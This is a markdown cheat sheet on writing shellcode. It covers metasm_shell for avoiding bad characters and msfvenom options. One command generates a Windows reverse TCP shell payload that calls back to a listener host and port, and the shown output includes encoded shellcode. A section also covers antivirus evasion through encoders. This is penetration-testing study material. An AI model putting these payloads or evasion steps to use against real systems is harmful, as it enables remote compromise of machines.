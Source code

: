 ```yaml
---
title: Shellcoding
description: Writing shellcode
---
```


# Shellcoding

## Avoiding bad chars

You can use `metasm_shell` to detect bad chars in your shellcode :

```bash
$ /opt/metasploit/tools/exploit/metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file

metasm >
```

### Basic examples

Substitute `1000` from a register :

```bash
metasm > sub esp,1000
"\x81\xec\xe8\x03\x00\x00"

metasm > add esp,-1000
"\x81\xc4\x18\xfc\xff\xff"
```

Set a register to `0` :

```bash
metasm > mov eax,0
"\xb8\x00\x00\x00\x00"

metasm > xor eax,eax
"\x31\xc0"
```

Set a register to `1` :

```bash
metasm > mov eax,1
"\xb8\x01\x00\x00\x00"

metasm > xor eax,eax
"\x31\xc0"
metasm > inc eax
"\x40"
```

## Msfvenom

Generates shellcode with `msfvenom`.

- List encoders : `msfvenom -l encoders`
- List payloads : `msfvenom -l payloads`
- List formats : `msfvenom -l formats`

### Basic example

```bash
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.0.5 LPORT=4444 EXITFUNC=thread -f python -b '\x00\x0a\x0d' -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdd\xc6\xd9\x74\x24\xf4\xbd\x25\xb1\xf0\x63"
shellcode += b"\x5a\x31\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17"
shellcode += b"\x83\xcf\x4d\x12\x96\xf3\x46\x51\x59\x0b\x97"
shellcode += b"\x36\xd3\xee\xa6\x76\x87\x7b\x98\x46\xc3\x29"
[...]
```

- `-a` : Architecture (ex: `x86`).
- `-p` : Payload (ex: `windows/shell_reverse_tcp`, `linux/x86/meterpreter/reverse_tcp`).
- `-f` : Output format (ex: `python`, `c`, `raw`).
- `-b` : Badchars (ex: `\x00` null byte, `\x0a` line feed, `\x0d` carriage return).
- `-v` : Variable name (ex: `buf`, `shellcode`)
- `EXITFUNC` : Use `thread` to avoid crashing the target application.

### AV Evasion

- `-e <encoder>` : Specify an encoder (ex: `86/shikata_ga_nai`).
- `-i <int>` : Number of encoding iterations.

The downside of adding more iterations is that the shellcode size increases every iteration.

### Limits size

- `-s <int>` : Maximum size of the shellcode (in bytes)

## References

- [Github - voydstack/shellcoding](https://github.com/voydstack/shellcoding)